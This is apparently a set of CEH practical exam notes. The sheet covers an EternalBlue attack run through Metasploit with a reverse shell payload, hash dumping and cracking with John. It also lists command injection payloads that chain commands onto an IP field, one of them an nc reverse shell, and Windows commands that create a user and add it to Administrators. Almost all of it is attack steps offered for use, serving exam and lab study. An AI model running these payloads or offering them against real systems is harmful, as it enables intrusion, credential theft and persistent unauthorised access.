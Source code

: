 

## <span style="color: #3498db; font-size: 0.8em;">   ETERNAL BLUE</span>

- `nmap -sC -sV -A -O IP`
- `nmap --script vuln IP`
- `sudo msfconsole`
- `search xploitms`
- `set payload windows/x64/shell/reverse_tcp`
- `search shell_to_meterpreter`
- `sessions -i #`
- `getuid`
- `hashdump`
- `migrate`
- `hashdump`
- `save hash`
- `john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT`
- `search -f text*`


Interesting URL:

* https://github.com/infovault-Ytube/CEH-Practical-Notes
* https://github.com/System-CTL/CEH_CHEAT_SHEET
* https://medium.com/techiepedia/certified-ethical-hacker-practical-exam-guide-dce1f4f216c9
* https://immpetus.gitbook.io/ceh-practical/
* https://ceh-practical.cavementech.com/


## <span style="color: #3498db; font-size: 0.8em;"> command injection Linux </span>

- 127.0.0.1 && ls
- 127.0.0.1 & ls
- 127.0.0.1 ; ls
- 127.0.0.1 | ls
- 127.0.0.1 && nc -c sh 127.0.0.1 9001
- grep . text.txt
- grep -R .
- python3 --version

## <span style="color: #3498db; font-size: 0.8em;"> command injection Windows </span>

-intentar poner en algunos casos | primero ejemplo |hostname o | hostname 
- hostname
- whoami
- tasklist
- taskkill /PID 3112 /F   //forcefully kills the processes
- dir c:\
- net user
- net user test /add     //add a new user
- net localgroup Administrators test /add    //add test user to administrators
- net user test     //to view the details of the user
- dir c:\ "pin.txt" or this command ! Take pin.txt   //to get content
- type c:\"pin.txt“   //to get the content of a file
